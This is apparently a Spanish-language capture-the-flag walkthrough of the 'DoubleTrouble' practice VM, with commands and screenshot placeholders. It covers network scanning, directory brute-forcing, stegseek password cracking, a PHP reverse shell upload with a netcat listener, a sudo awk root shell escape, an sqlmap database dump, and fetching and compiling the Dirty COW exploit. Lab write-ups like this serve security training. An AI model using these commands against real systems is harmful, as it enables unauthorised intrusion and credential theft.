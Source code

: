 **1.- Escaneo de la red local:**
Para escanear la red local para identifica la IP de la máquina, para ello usaremos el siguiente comando:

arp-scan --localnet
![[Pasted image 20240225174411.png]]

**2.- Realizamos un escaneo de puertos**
Para realizar el escaneo de puertos hay que hacer un nmap.

nmap -sS -sV (ip de la máquina)
![[Pasted image 20240225174515.png]]

Hemos podido localizar que tiene el puerto 80 abierto, podemos decir que tiene una web corriendo.
Para cojer un poco más de información sobre la web relizaremos el siguiente comando.
![[Pasted image 20240225174632.png]]

una vez tenemos información sobre ella, entraremos a la web desde el navegador.
![[Pasted image 20240225174712.png]]

**3.- Mirar archivos o directorios ocultos**

Miramos si hay archivos ocultos gracias a la herramienta gobuster. Para ello introducimos el siguiente comando.

gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.76
![[Pasted image 20240225175144.png]]

vemos una carpeta un tanto sospechosa, esta se llama /secret. Para abrirla la pondemos en el navegador al lado de la ip

(ip)/secret
![[Pasted image 20240225175309.png]]

vemos que hay una imagen, la descargamos para analizarla. Para ello usaremos la siguiente herramienta stegseek.

stegseek doubletrouble.jpg -wl /usr/share/wordlists/rockyou.txt -xf img
![[Pasted image 20240225175639.png]]

podemos ver que se nos ha descargado una imagen. Miramos el contenido de la imagen. Para ello usaremos el cat.

cat img
![[Pasted image 20240225175806.png]]

Esto nos da las credenciales del login de la web. Entonces iniciaremos sesión.
![[Pasted image 20240226225242.png]]


y entramos a la configuracion del usuario
![[Pasted image 20240226225312.png]]

aqui subiremos un archivo php para ejecutar una reverse shell

al subirlo nos saldrá esto, entonces tendremos que ir a la carpeta /uploads/users
![[Pasted image 20240226225539.png]]
![[Pasted image 20240226225600.png]]

a partir de esto nos pondremos escuchando con netcat en el puerto 4444

nc -lnvp 4444
![[Pasted image 20240226225700.png]]

ahora le daremos click al archivo que acabamos de subir y obtendremos conexion
![[Pasted image 20240226225839.png]]
ya tenemos control, para ver la ruta haremos "script /dev/null -c bash"
![[Pasted image 20240226225948.png]]

ejecutamos el comando sudo -l para ver si tenemos algun permiso de administrador, y nos damos cuenta de que nos muestra el siguiente mensaje
![[Pasted image 20240226230104.png]]
Para escalar privilegios tendremos que escribir el siguiente comando
sudo awk 'BEGIN {system("/bin/bash")}'
![[Pasted image 20240226230216.png]]
con esto ya tenemos permiso de administrador, nos situamos en la carpeta root y vemos que tenemos otra ova, entonces la descargamos en nuestro ordenador local con el comando python -m http.server 80

y la ejecutamos
vemos que tenemos un login de administrador
![[Pasted image 20240226230456.png]]

para sacar las passwords de administrador ejecutaremos el siguiente comando
sqlmap -u http://10.0.0.28/index.php --forms --current-db -D doubletrouble -T users --dump
![[Pasted image 20240226231147.png]]

ahora entraremos via ssh en lel usuario clapton
![[Pasted image 20240226231309.png]]

ahora cojeremos un exploit para poder escalar privilegios: [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

los descargaremos desde local con el comando wget https://github.com/FireFart/dirtycow/blob/master/dirty.c
![[Pasted image 20240226231534.png]]

lo subiremos a un servidor python y lo descargaremos en el ssh
![[Pasted image 20240226231605.png]]

![[Pasted image 20240226231736.png]]

ya de paso vemos que tenemos un txt y lo abrimos y vemos que es la primera flag
![[Pasted image 20240226231812.png]]

una vez tenemos el exploit lo compilamos con el siguiente comando
gcc -pthread dirty.c -o dirty -lcrypt
![[Pasted image 20240226232420.png]]

una vez compilado lo ejecutamos
![[Pasted image 20240226232504.png]]
elegimos nueva contraseña y nos da un usuario llamado firefart que entraremos via ssh y escribiremos la nueva contraseña
![[Pasted image 20240226232623.png]]
 y miramos que contiene y ejecutamos la flag
 ![[Pasted image 20240226232701.png]]
